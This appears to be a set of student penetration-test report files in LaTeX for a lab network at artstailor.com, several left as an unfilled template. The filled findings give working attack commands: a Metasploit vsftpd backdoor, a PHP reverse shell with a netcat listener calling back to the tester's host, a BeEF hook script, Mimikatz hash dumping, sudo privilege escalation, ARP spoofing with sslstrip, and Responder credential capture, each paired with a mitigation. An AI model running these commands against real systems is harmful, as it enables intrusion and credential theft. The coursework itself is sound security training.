./ex01/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  
    These findings are for the customer.
    Never mention the class in these findings.
    Never refer to the attack narrative in these findings.
    You will want to be able to copy-and-paste these into a more complete report.

	\subsubsection*{Severity Rating}
		Here you identify the severity (using the CVSS base score metrics)
		and point out the potential outcome of exploitation of this
		vulnerability.

		Include the CVSS base score designation \textbf{including its
		subcomponent values} to document your	severity rating.\\
		Example: \\
	   	This shows you how to format a CVSS score for your report.
	   	(You should be able to look at CVSS documentation to
	   	determine what the parameters A, H, L, N, U, H, L, N,
	   	<number> should represent.)
	   	
	    
		\cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
  		Here you provide a brief description of the nature of the vulnerability
  		including where the vulnerability is present (what machine and
  		what service).
  		
  	\subsubsection*{Confirmation method}
  	
		This section contains the information necessary for the
		client to verify that the vulnerability still exists.
		(Note: inability to confirm that the vulnerability
		does not exist using this method does not
		guarantee that the vulnerability has been addressed
		or mitigated.)
		
		The best confirmation method sections contain a few commands
		to execute. The vulnerability is confirmed by comparing
		the result to the expected result on a vulnerable
		host/network. The confirmation method should be simple
		and is usually \emph{not} exactly the same as what you
		did to discover and exploit the vulnerability.
		This is something the client's admins, with full
		highest privilege access can do to confirm the
		vulnerability is present.
		
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}
./ex02/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  
    These findings are for the customer.
    Never mention the class in these findings.
    Never refer to the attack narrative in these findings.
    You will want to be able to copy-and-paste these into a more complete report.

	\subsubsection*{Severity Rating}
		Here you identify the severity (using the CVSS base score metrics)
		and point out the potential outcome of exploitation of this
		vulnerability.

		Include the CVSS base score designation \textbf{including its
		subcomponent values} to document your	severity rating.\\
		Example: \\
	   	This shows you how to format a CVSS score for your report.
	   	(You should be able to look at CVSS documentation to
	   	determine what the parameters A, H, L, N, U, H, L, N,
	   	<number> should represent.)
	   	
	    
		\cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
  		Here you provide a brief description of the nature of the vulnerability
  		including where the vulnerability is present (what machine and
  		what service).
  		
  	\subsubsection*{Confirmation method}
  	
		This section contains the information necessary for the
		client to verify that the vulnerability still exists.
		(Note: inability to confirm that the vulnerability
		does not exist using this method does not
		guarantee that the vulnerability has been addressed
		or mitigated.)
		
		The best confirmation method sections contain a few commands
		to execute. The vulnerability is confirmed by comparing
		the result to the expected result on a vulnerable
		host/network. The confirmation method should be simple
		and is usually \emph{not} exactly the same as what you
		did to discover and exploit the vulnerability.
		This is something the client's admins, with full
		highest privilege access can do to confirm the
		vulnerability is present.
		
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}
./ex03/report.tex

\section{Technical Report}
% Include one of these headings for each finding.

  \subsection{Finding: \emph{Private IP Subdomains}}
  
	\subsubsection*{Severity Rating}
	    During network scanning, several private subdomains were discovered visible to users without
            the required privileges. This vulnerability can lead to the exposure of internal infrastructure, internal network scanning, and exploitation of user data.
            
		\cvss(L,L,L,N,U,L,N,N,3.3)
		
  	\subsubsection*{Vulnerability Description}
            This vulnerability can be present on various machines within the organization, typically those responsible for DNS configuration and management. Specifically, it may affect DNS servers and related services responsible for resolving domain names to IP addresses.
  		
  	\subsubsection*{Confirmation method}
            To confirm these vulnerabilities, the use of CeWl and fierce in the kali command line can be used. Running the command "cewl http://www.artstailor.com -d 3 -o -w list.txt" and then using this list to run "fierce -{}-domain artstailor.com -{}-subdomain-file list.txt" will reveal several subdomains with IP addresses starting with 10. This IP address is generally reserved for private internal networks and should not be exposed to the  public.
		
    \subsubsection*{Mitigation or Resolution Strategy}
        To resolve this issue, the client can carefully review the companies DNS configuration to figure out where this information is being exposed from. From here, ensure that only public facing subdomains are shown in the DNS records. Also, figure out why these were available to begin with and see if more checks need to be implemented on who can change this configuration. 

\newpage


\section{Attack Narrative}
./ex04/report.tex

./ex05/report.tex

./ex06/report.tex

\section{Technical Report}


% Include one of these headings for each finding.

  \subsection{Finding: \emph{vsftdp Smiley Face Backdoor}}
  
	\subsubsection*{Severity Rating}
		High Risk Factor
	   	
		\cvss(N,L,N,N,U,H,H,H,8.8)
		
  	\subsubsection*{Vulnerability Description}
  		The vulnerability discovered in this section is known as the vsftpd smiley face backdoor specific to
        certain versions of vsftpd running on the host network. If a user attempts to login with a username containing a smiley
        face :), a backdoor is triggered and the host shell begins to listen on TCP port 6200. Any user that logs in
        with this in their username now possibly has root level access and can look at files, run code, and delete files.

  	\subsubsection*{Confirmation method}
  	    To run the exploit, start up the Metasploit framework and run the following commands in the kali command line:
        \begin{verbatim}
            sudo msfdb init
            msfconsole
            use exploit/unix/ftp/vsftpd 234 backdoor
            set RHOST ns.artstailor.com
            exploit
        \end{verbatim}

    \subsubsection*{Mitigation or Resolution Strategy}
        A complete validation and recompilation of the source code is required to patch this issue. This
        issue was patched in versions after July 2011. Immediate steps should be taken to install a newer version
        of vsftpd.

\section{Attack Narrative}
./ex07/report.tex

\section{Technical Report}

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Netcat Shell Access}}
  
	\subsubsection*{Severity Rating}
		Critical Risk: \\
		\cvss(N,L,N,R,C,H,H,H,9.6)
		
  	\subsubsection*{Vulnerability Description}
  		The program running on port 1337 written by Brian Oppenheimer is intended to allow system admins see the server status without having to login and
        thus essentially run as regular users. An error in the code allows for a buffer overflow of the name to leak into the list of possible commands to run
        and therefore allows the user to run a shell with elevated commands if they overflow the correct command. 
  	\subsubsection*{Confirmation method}
  	    The following script can be used to gain shell access to the server
    \begin{verbatim}
netcat www.artstailor.com 1337
1234567890123456hs
brian
sh
    \end{verbatim}
				
    \subsubsection*{Mitigation or Resolution Strategy}
    To address this problem, there are two possible solutions. The easiest solution would be to disable this service or make sure it can only be accessed
    within internal networks. There is no real reason other than ease of use for this port to always be active and listening so I recommend the termination of
    this program. If there is adequate reason to keep this service running, the toool.c code must be changed to make sure that overflowed user input will not
    leak into the list of commands.



\section{Attack Narrative}
./ex08/report.tex

\section{Technical Report}

  \subsection{Finding: \emph{User Credentials}}
  
	\subsubsection*{Severity Rating}
	    High Risk:	    
		\cvss(L,L,N,R,U,H,H,N,7.1)
		
  	\subsubsection*{Vulnerability Description}
  		A password spraying method was used to find a list of possible user credentials for the internal email address. With a list of
        common passwords and some OSInt, I was able to access user emails and log on to the company email of one employee.

  	\subsubsection*{Confirmation method}
  	    Open port 443 in the browser with the following name
\begin{verbatim}
https://172.70.184.3:443
\end{verbatim}

    and enter the credentials (not included for confidentiality)


\includegraphics[width=5in]{~/Desktop/school/fall2023/pen/ex/ex08/outlook}
				
    \subsubsection*{Mitigation or Resolution Strategy}
        Have all employees change their passwords and have some sort of company program to check passwords against list of commonly used hashes and other forms of password validation.
        If it is too easy for attackers to guess the password, it will be inevitable that an attack can access sensitive user information. The use of MFA could also be enforced
        to ensure an attacker would need more than just one attack vector.



\section{Attack Narrative}
./ex09/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Root Access and Password Hashing}}
	\subsubsection*{Severity Rating}
        \textbf{Critical} \\
		\cvss(N,L,L,N,C,H,H,H,9.9)
		
  	\subsubsection*{Vulnerability Description}
  		After running some scripts, I have root access to the local remote machine and potential
        access to other domain wide users account and information. Immediate action is required

  	\subsubsection*{Confirmation method}
  	Create a new port forward to allow remote access to costumes rdp port when hitting mail.artstailor.com
    rdp port. Then copy our PowerDown.ps1 powershell to a filesystem to mount to remote destkop using
    the credentials previously found.
    \begin{verbatim}
rdesktop mail.artstailor.com -r disk:win32=/tmp/<tmp>/
    \end{verbatim}
    Open command prompt and navigate to mounted filesystem. Then run following commands
    \begin{verbatim}
Import-Module \\TSCLIENT\win32\PowerDown.ps1
Do-ServiceAbuse -Name "VSS" -User <Username> -Password <Password>
    \end{verbatim}
    Use these credentials to log back in as root user and then use Mimikatz to dump password hashes as follows
    \begin{verbatim}
lsadump::sam
    \end{verbatim}

    \subsubsection*{Mitigation or Resolution Strategy}
    It is once again imperative to make sure all users change their passwords to not allow any sort 
    of access to the remote desktop. If an attacker were to gain access however, there should be checks
    in place to make sure no one but administrators can run powershell or command prompt scripts. Even
    stronger measures such as no access to powershell to all non-administrative users can be enforced.



\section{Attack Narrative}
./ex0a0/report.tex

\section{Technical Report}

  \subsection{Finding: \emph{Network User Compromised}}
	\subsubsection*{Severity Rating}
	Risk Factor: High
    \cvss(N,L,N,N,C,L,L,L,8.3)
		
  	\subsubsection*{Vulnerability Description}
  		A list of hashes was found using a mimikatz exploit. This list was used against
        a list of known hashes to find the credentials of a network user. This attack revealed
        the credentials of one user. 

  	\subsubsection*{Confirmation method}
  	The hashes that had been previously found must be formatted in \textbf{user:hash} format. The use
    of the John the Reaper tool along with the rockyou wordlist must be employed as follows
    \begin{verbatim}
john --wordlist=<pathToRockYou.txt> --format=NT passwordHashes.txt
    \end{verbatim}
    
    \subsubsection*{Mitigation or Resolution Strategy}
    It is recommended to change all user passwords and to make sure that the hashes are checked against
    well known wordlists such as rockyou and that more password requirements are enforced such as longer password
    lengths as is recommended by NIST Publication 800-63B. Creating more complex passwords checked against
    dictionaries and longer passwords must be employed to prevent this kind of attack from occurring again.



\section{Attack Narrative}
./ex0b0/report.tex

./ex0c0/report.tex

./ex0d0/report.tex

\section{Technical Report}
% Include one of these headings for each finding.

  \subsection{Finding: \emph{NT AUTHORITY/SYSTEM Escalation}}
  
	\subsubsection*{Severity Rating}
    Risk: Medium \\
    \cvss(L,H,H,R,U,H,H,L, 5.8)
		
  	\subsubsection*{Vulnerability Description}
  		Due to the reset script, it is possible for a user to open a command prompt as NT AUTHORITY/SYSTEM from the login screen
        by clicking on the accessibility button. From here, an attacker could create an admin user with full access to all domain users
        information.

  	\subsubsection*{Confirmation method}
  	The attacker must have access to innerouter first and create a port forward from innerouter to books.arstailor.com. The attacker can then remote
    desktop to books.artstailor.com. Once on the login page, the attacker can press the accessibility button and a command prompt instantiated by AUTHORITY
    will be initiated. Using the command
\begin{verbatim}
net user username password /add
net localgroup username /add
\end{verbatim}
    Will allow the attacker to create an admin account and be able to access any file of all local domain users.

    \subsubsection*{Mitigation or Resolution Strategy}
    To avoid this issue, the reset function should be removed. Another method to stop Oliver from accessing Debbies passwords must be used as this is allowing for any
    attacker to gain complete admin to all users which is of higher importance than Debbies account. Debbie needs to create stronger passwords and this function must be 
    terminated. The registry entry for utilman to cmd.exe must also be removed and the previous batch files must be removed.



\section{Attack Narrative}
./ex0e0/report.tex

\section{Technical Report}

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Devbox Root Access}}
  
	\subsubsection*{Severity Rating}
    Risk: Medium \\
	\cvss(L,L,H,R,U,H,H,L,6.1)
		
  	\subsubsection*{Vulnerability Description}
    Root access to any of the host servers will allow the attacker to potentially shut down services and gain access to other sensitive information. A way into
    devbox was found using previously found credentials from user l.strauss.

  	\subsubsection*{Confirmation method}
    To gain access to devbox, you must first sign in as admin user pr0b3 on costumes and then ssh back to kali as follows.
 \begin{verbatim}
ssh -R 1081 kali@172.24.0.10
  \end{verbatim}
    Once the connection is established, from kali we can run the following command
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    The real password is concealed, however this allowed us to gain root access to devbox.

	\subsubsection*{Mitigation or Resolution Strategy}
    The best mitigation for this would be to have l.strauss change his credentials and avoid storing all passwords in plaintext at all costs. Easily discoverable passwords
    led to this attack to begin with.

    \subsection{Finding: \emph{Credential Access to Secret Page}}
  
	\subsubsection*{Severity Rating}	    
    Risk: Medium \\
    \cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
    Once the attacker has root access to the system, they can copy over sslstrip, tcpdump, and arpspoof to packet sniff incoming and outgoing packets. They can use these packets to 
    mount an SSL stripping attack. The attacker can then use arpspoof to mount a man in the middle attack. The TLS packets that are normally encoded can then be unencrypted using sslstripping
    tools which reveals a set of credentials as well as a secret website with sensitive user information. We can see an invoice for a set of superhero gauntlets which is information that should
    not be known by the public. 
   
  	\subsubsection*{Confirmation method}
    We can scp over the initial files we need to mount the attack. Once we have all the essential executables, we can execute the following commands as a root user.
\begin{verbatim}
fuser -k 80/tcp
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT 
--to-port 6166

python3 sslstrip.py -w strip.logs -l 6166 -a
tail -f strip.log
TWO DIFFERENT TERMINALS:
route -n to find gateway (10.70.184.1)
wireshark to find host ip to spoof (10.70.184.101)
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
   
	\subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this issue, we have to make sure that an attacker should never be able to get root access. Changing user credentials and enforce stricter guidlines for what users have root acces
    needs to be enforced. There are also methods to make sure that HTTPS is always enforced and to not provide HTTP alternatives for any HTTPS requests. 
    

    



\section{Attack Narrative}
./ex0f0/report.tex

\section{Technical Report}
  \subsection{Finding: \emph{Root Access Using Sudo Exploit}}

	\subsubsection*{Severity Rating}
        Risk: High \\
		\cvss(L,H,L,N,C,H,H,H, 7.8)
		
  	\subsubsection*{Vulnerability Description}
  	Using an old version of sudo allows users to potentially run commands as other users and even root despite not being authorized to. If the sudo version is outdated,
    an attacker can trick the kernel into running the commands outlined by "sudo -l" as root even if the flag specifies the user can't. For our exploit, we are allowed to run ps
    using sudo, so we can overwrite the executable with another command that is then run with root privilege. 
  	\subsubsection*{Confirmation method}
  	We can see what commands l.strauss has on devbox using the following command
\begin{verbatim}
sudo -l
\end{verbatim}
    and then overwrite this command with another command. For our particular exploit, we use the bash executable as follows
\begin{verbatim}
cp /usr/bin/bash /usr/bin/ps
sudo -u#-1 ps
\end{verbatim}
    Which then opens a bash terminal as a root and thus we now have root access. 

    \subsubsection*{Mitigation or Resolution Strategy}
    We can do a couple of things to resolve this issue. The most important thing that can be done is to make sure to constantly update the linux version to make sure
    that already patched and well known exploits are not introduced into the system. A simple linux update every week can help mitigate a lot of possible vulnerabilities. Another way
    to fix this issue on the current version of sudo is to remove the !root or {\#}0 exclusion in the sudoers file.


\section{Attack Narrative}
./ex100/report.tex

\section{Technical Report}

  \subsection{Finding: \emph{WPAD Spoofing for Credentials}}
  
	\subsubsection*{Severity Rating}
        Risk: Low \\
		\cvss(L,H,H,N,U,L,N,N, 1.9)
		
  	\subsubsection*{Vulnerability Description}
  		WPAD is a network protocol that allows browser to discover proxy settings in a local network. We see that a user is using WPAD protocol	and can thus 
        try and connect to it using responder to gather credentials. This attack captured credentials for a user with \textbf{Basic username {\:} not.nomen}
  	\subsubsection*{Confirmation method}
  	    Root access was gained on devbox using previous sudo exploits. Once root access was established, the responder program was imported over using scp.
        We must first disable some services before the attack is successful.
\begin{verbatim}
sudo netstat -tnlp | grep -E '80|25|53'
sudo service <name> stop
\end{verbatim}
    Where name is the name of the service as revealed from netstat. Once these services are killed, we can run the command and wait patiently while credentials are captured.
\begin{verbatim}
sudo python3 Responder.py -I ens32 -wFb
\end{verbatim}
				
    \subsubsection*{Mitigation or Resolution Strategy}
    One way to mitigate this attack would be to disable WPAD services. If this is not a feasable solution, then all web traffic must be encrypted using HTTPS to ensure
    intercepted data is not plaintext.
		



\section{Attack Narrative}
./ex110/report.tex

\section{Technical Report}


% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  	\subsubsection*{Severity Rating}
	Severity Risk: Low \\
    \cvss(L,H,L,R,U,L,N,N,2.2)
		
  	\subsubsection*{Vulnerability Description}
        Using social engineering, we know to expect a user to hit a page we are hosting. Using BeEF (Browser Exploitation Framework), we are able to capture
        the users browser and get sensitive information such as session tokens as well as use other possible social engineering attacks such as fake email login pages.

  	\subsubsection*{Confirmation method}
  	We must first create on our server with the URL \textbf{/coins/collection.html} and add a script to the page that hooks it to BeEF. This requires us to make a new directory,
    create a new page, add a script to the page, and then start or restart the apache server.
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
In HTML:
    <script src='http://172.24.0.10:3000/hook.js'></script>
sudo service apache2 start
\end{verbatim}
    We can then navigate to the beef directory and start it up as follows:
\begin{verbatim}
./beef
xdg-open http://172.24.0.10:3000/ui/panel
\end{verbatim}
    Then, use the credentials found in the config.yaml in the beef directory to log in and wait. After some time, a new Windows user will appear and thus the attack is complete.
    \subsubsection*{Mitigation or Resolution Strategy}
    There are not a lot of possible concrete resolution strategies to resolve this kind of attack. One possible mitigation would be to make sure all users keep software updated as 
    newer versions of browsers and software are more resiliant to these kind of attacks. Antivirus software and more network firewalls might also help to possibly block the user
    from being able to access the page. These are not sure ways to stop this attack, but they might help reduce the chance of this happenining.



\section{Attack Narrative}
./ex120/report.tex

\section{Technical Report}


  \subsection{Finding: \emph{www-data shell access}}
  

	\subsubsection*{Severity Rating}
	    Risk Severity: Critical \\
		\cvss(A,L,N,N,C,H,H,H, 9.6)
		
  	\subsubsection*{Vulnerability Description}
        An attacker can navigate to Brian's site, get access to the administrative control panel, and through some effort, upload a shell to gain access
        to the Host Machine as user www-data. Once the attacker is in, they will have access to all files that www-data has access to and can modify
        Brian's site as well possibly find other information on the host machine that is not well hidden.

  	\subsubsection*{Confirmation method}
  	    First, get the credentials to the admin panel by navigating to 		
\begin{verbatim}
www.artstailor.com/brian/getimage.php?raw=true&file=htpasswd
\end{verbatim}
    and then running this through John The Ripper to get the following censored credentials
\begin{verbatim}
Brian: Sw...h
\end{verbatim}
    We can alter the reverse shell we want to upload to make sure it comes back to our own machine. For me, this was
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    Next, we want to move this file to a jpg file and then open up Burp Suite and upload this file as a test to see how the file is uploaded. We
    can then alter the POST packet to change the name to reverse.php as it seems to only check the Content-Type if we upload it directly on Burp Suite.
    Lastly, we open up netcat to the port we wrote earlier and navigate to the reverse.php as follows
\begin{verbatim}
nc -nlvp 6166
xdg-open www.artstailor.com/brian/imgfiles/reverse.php
\end{verbatim}
    On the terminal with netcat open, we can now see that we have a shell and running whoami reveals that we are in fact www-data. Running ip a further reveals that we are on
    172.70.184.133 which is the IP where the brian site was hosted on.

    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate a reverse shell attack, there are a few strategies that could have been employed. Firstly, a forward facing admin panel should try to be avoided, especially to do
    something like upload images which can be done on the system without having to expose this code to the user. If brian is the only admin to the account that can upload content, there
    is no point in leaving the script up on the site. Next, there should not have been a way for any user to get access to the htpasswd file. The server should have been configured to ensure
    there is no way to get access to this file through some sort of configuration. The hash should also have not been as easy to guess and should have been a harder password. Also, there
    should be better restrictions on the file types that are uploaded. For example, some sort of server-side validation should have been performed instead of a simple extension check. Using 
    something as simple as the file command would have made it a little harder to upload the file. 



\section{Attack Narrative}
./ex130/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  
    These findings are for the customer.
    Never mention the class in these findings.
    Never refer to the attack narrative in these findings.
    You will want to be able to copy-and-paste these into a more complete report.

	\subsubsection*{Severity Rating}
		Here you identify the severity (using the CVSS base score metrics)
		and point out the potential outcome of exploitation of this
		vulnerability.

		Include the CVSS base score designation \textbf{including its
		subcomponent values} to document your	severity rating.\\
		Example: \\
	   	This shows you how to format a CVSS score for your report.
	   	(You should be able to look at CVSS documentation to
	   	determine what the parameters A, H, L, N, U, H, L, N,
	   	<number> should represent.)
	   	
	    
		\cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
  		Here you provide a brief description of the nature of the vulnerability
  		including where the vulnerability is present (what machine and
  		what service).
  		
  	\subsubsection*{Confirmation method}
  	
		This section contains the information necessary for the
		client to verify that the vulnerability still exists.
		(Note: inability to confirm that the vulnerability
		does not exist using this method does not
		guarantee that the vulnerability has been addressed
		or mitigated.)
		
		The best confirmation method sections contain a few commands
		to execute. The vulnerability is confirmed by comparing
		the result to the expected result on a vulnerable
		host/network. The confirmation method should be simple
		and is usually \emph{not} exactly the same as what you
		did to discover and exploit the vulnerability.
		This is something the client's admins, with full
		highest privilege access can do to confirm the
		vulnerability is present.
		
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}
./ex140/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Android App and Database Credentials}}
  
	\subsubsection*{Severity Rating}
        Severity: High \\	   	
		\cvss(L,L,N,N,U,H,H,H,8.4)
		
  	\subsubsection*{Vulnerability Description}
  		After examining the apk file found on the site, some hidden credentials were found using jadx-gui
        which is readily available for consumer use. These credentials were then used to gain access to a mysql
        service running on the artstailor server.

  	\subsubsection*{Confirmation method}
  	First download the apk file as follows
\begin{verbatim}
wget www.artstailor.com/apps/ArtsTailorNews.apk
\end{verbatim}
    Open the application and jadx-gui and then navigate to the cache created after the application is compiled.
    Once inside the cache, run the following command to get the username and password
\begin{verbatim}
cat sources/00/000000800.java | grep -e 'b64username' -e 'b64password'
\end{verbatim}
    This will reveal the following censored credentials.
\begin{verbatim}
username: db_user_token
password: KEY022-uid...CQ==
\end{verbatim}
    Lastly, we can use these credentials to gain access to the server
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_user_token -p
KEY022-uid...CQ==
\end{verbatim}
    From previous Exercise 110, we also have some admin credentials as follows
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_admin_token -p
KEY019-8Dq...e\n
\end{verbatim}
    Using these credentials gives us access to user credit card information. 
    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this, we can firstly avoid hardcoding any sort of credentials into the code. You should also try to use 
    secure storage solutions that provide more hardware-backed storage options for keys rather than including them in the code.
    Now that this has been exploited, make sure to also change the credentials for the db{\_}user{\_}token.

\section{Attack Narrative}
./ex150/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  
    These findings are for the customer.
    Never mention the class in these findings.
    Never refer to the attack narrative in these findings.
    You will want to be able to copy-and-paste these into a more complete report.

	\subsubsection*{Severity Rating}
		Here you identify the severity (using the CVSS base score metrics)
		and point out the potential outcome of exploitation of this
		vulnerability.

		Include the CVSS base score designation \textbf{including its
		subcomponent values} to document your	severity rating.\\
		Example: \\
	   	This shows you how to format a CVSS score for your report.
	   	(You should be able to look at CVSS documentation to
	   	determine what the parameters A, H, L, N, U, H, L, N,
	   	<number> should represent.)
	   	
	    
		\cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
  		Here you provide a brief description of the nature of the vulnerability
  		including where the vulnerability is present (what machine and
  		what service).
  		
  	\subsubsection*{Confirmation method}
  	
		This section contains the information necessary for the
		client to verify that the vulnerability still exists.
		(Note: inability to confirm that the vulnerability
		does not exist using this method does not
		guarantee that the vulnerability has been addressed
		or mitigated.)
		
		The best confirmation method sections contain a few commands
		to execute. The vulnerability is confirmed by comparing
		the result to the expected result on a vulnerable
		host/network. The confirmation method should be simple
		and is usually \emph{not} exactly the same as what you
		did to discover and exploit the vulnerability.
		This is something the client's admins, with full
		highest privilege access can do to confirm the
		vulnerability is present.
		
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}
./finalReport/report.tex

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  
    These findings are for the customer.
    Never mention the class in these findings.
    Never refer to the attack narrative in these findings.
    You will want to be able to copy-and-paste these into a more complete report.

	\subsubsection*{Severity Rating}
		Here you identify the severity (using the CVSS base score metrics)
		and point out the potential outcome of exploitation of this
		vulnerability.

		Include the CVSS base score designation \textbf{including its
		subcomponent values} to document your	severity rating.\\
		Example: \\
	   	This shows you how to format a CVSS score for your report.
	   	(You should be able to look at CVSS documentation to
	   	determine what the parameters A, H, L, N, U, H, L, N,
	   	<number> should represent.)
	   	
	    
		\cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
  		Here you provide a brief description of the nature of the vulnerability
  		including where the vulnerability is present (what machine and
  		what service).
  		
  	\subsubsection*{Confirmation method}
  	
		This section contains the information necessary for the
		client to verify that the vulnerability still exists.
		(Note: inability to confirm that the vulnerability
		does not exist using this method does not
		guarantee that the vulnerability has been addressed
		or mitigated.)
		
		The best confirmation method sections contain a few commands
		to execute. The vulnerability is confirmed by comparing
		the result to the expected result on a vulnerable
		host/network. The confirmation method should be simple
		and is usually \emph{not} exactly the same as what you
		did to discover and exploit the vulnerability.
		This is something the client's admins, with full
		highest privilege access can do to confirm the
		vulnerability is present.
		
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}
